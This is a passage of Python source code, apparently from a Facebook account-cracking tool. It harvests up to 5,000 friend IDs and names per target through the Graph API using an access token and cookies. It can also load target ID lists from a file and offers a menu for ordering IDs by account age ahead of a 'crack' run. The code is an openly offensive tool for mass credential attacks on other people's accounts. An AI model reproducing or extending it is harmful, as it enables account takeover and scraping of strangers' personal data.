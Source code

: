             col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
            for mi in col['friends']['data']:
                try:
                    iso = (mi['id']+'|'+mi['name'])
                    if iso in id:pass
                    else:id.append(iso)
                except:continue
        except (KeyError,IOError):
            pass
        except requests.exceptions.ConnectionError:
            print('\x1b[38;5;50m==================')
            animation(' [×] TRY AGAIN ')
            os.system('clear')
    try:
        print('\x1b[38;5;50m==================')
        print(f' \033[97;1m[\x1b[38;5;50m•\033[97;1m] TOTAL ID : \u001b[36m'+str(len(id))+'\033[1;37m')
        setting()
    except requests.exceptions.ConnectionError:
        print(f'{u}')
        back()
    except (KeyError,IOError):
        print('\x1b[38;5;50m==================')
        animation(" [×] DUMP ID FAILED ")
        time.sleep(3)
        back()
 
#-------------[ CRACK-FROM-FILE ]------------------#
 
def crack_file():
    print(f'\033[38;5;196m───────────────────\033[1;37m')
    os.system('espeak -a 300 " your file name"')
    print('\033[1;91m[\033[1;92m+\033[1;91m] \033[1;96mFILE NAME EXAMPLE: /sdcard/file.txt Etc.]')
    o = input('\033[1;91m[\033[1;92m+\033[1;91m] \033[1;96mYOUR FILE NAME :\x1b[1;95m ')
    print(f'\033[38;5;196m───────────────────\033[1;37m')
    try:lin = open(o).read().splitlines()
    except:
        print(f'\033[38;5;196m───────────────────\033[1;37m')
        animation(' [×] FILE NOT FOUND')
        time.sleep(2)
        back()
    for xid in lin:
        id.append(xid)
    setting()
 
#-------------[ PENGATURAN-IDZ ]---------------#
 
def setting():
    print(f'\033[38;5;196m┏━───────────────────\033[1;37m')
    print("\x1b[38;5;50m┣━\033[1;91m[\033[1;92m1\033[1;91m]\033[1;92m \x1b[38;5;50mOLD ID")
    print("\x1b[38;5;50m┣━\033[1;91m[\033[1;92m2\033[1;91m]\033[1;92m \033[0;93mNEW ID")
    print("\x1b[38;5;50m┣━\033[1;91m[\033[1;92m3\033[1;91m]\033[1;92m \x1b[38;5;50mMIX ID [BEST]")
    print(f'\033[38;5;196m┗━───────────────────\033[1;37m')
    hu = input('\033[97;1m[\x1b[38;5;50m+\033[97;1m] \033[1;96mCHOOSE :\x1b[38;5;50m ')
    if hu in ['1','01']:
        for tua in sorted(id):
            id2.append(tua)
    elif hu in ['2','02']:
        muda=[] 
        for bacot in sorted(id):
            muda.append(bacot)
        bcm=len(muda)
        bcmi=(bcm-1)
        for xmud in range(bcm):
            id2.append(muda[bcmi])